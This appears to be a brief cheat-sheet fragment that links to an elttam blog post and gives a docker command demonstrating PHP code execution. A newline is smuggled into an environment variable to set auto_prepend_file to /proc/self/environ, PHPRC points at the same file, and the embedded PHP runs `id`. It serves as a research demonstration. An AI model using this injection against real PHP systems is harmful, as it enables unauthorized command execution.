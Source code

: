 x
-

[see](https://www.elttam.com/blog/env/)

````sh
docker run -e $'HOSTNAME=1;\nauto_prepend_file=/proc/self/environ\n;<?php die(`id`); ?>' \
  -e 'PHPRC=/proc/self/environ' php:7.3 php /dev/null
````
